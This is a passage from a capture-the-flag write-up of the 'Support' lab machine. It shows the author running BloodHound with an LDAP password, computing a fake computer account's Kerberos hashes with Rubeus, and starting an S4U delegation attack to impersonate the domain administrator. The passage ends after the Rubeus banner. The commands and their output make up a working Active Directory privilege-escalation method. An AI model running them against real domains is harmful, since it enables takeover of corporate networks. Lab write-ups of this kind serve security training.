     
    
    oxdf@hacky$ bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
    ...[snip]...
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: 0xdfFakeComputer.support.htb
    INFO: Querying computer: dc.support.htb
    WARNING: Could not resolve: 0xdfFakeComputer.support.htb: The DNS query name does not exist: 0xdfFakeComputer.support.htb.
    INFO: Done in 00M 14S
    

It calls out that it can’t find 0xdfFakeComputer.support.htb, which makes
sense. It shows this new permission:

![image-20220527153649549](https://0xdfimages.gitlab.io/img/image-20220527153649549.png)

#### Auth as Fake Computer

I’ll use `Rubeus` to get the hash of my fake computer account:

    
    
    *Evil-WinRM* PS C:\programdata> .\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
    
      v1.6.4
    
    [*] Action: Calculate Password Hash(es)
    
    [*] Input password             : 0xdf0xdf123
    [*] Input username             : 0xdfFakeComputer
    [*] Input domain               : support.htb
    [*] Salt                       : SUPPORT.HTB0xdffakecomputer
    [*]       rc4_hmac             : B1809AB221A7E1F4545BD9E24E49D5F4
    [*]       aes128_cts_hmac_sha1 : F7A01B9628299B9FB8A93CFCCF8E747C
    [*]       aes256_cts_hmac_sha1 : 90499A3696F8B07B9CDB02E919F193768519340F7812F6050177E6997262B6F0
    [*]       des_cbc_md5          : 76EF4F97ADD99176
    

I need the one labeled `rc4_hmac`, which I’ll pass to `Rubeus` to get a ticket
for administrator:

    
    
    *Evil-WinRM* PS C:\programdata> .\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
    
       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
    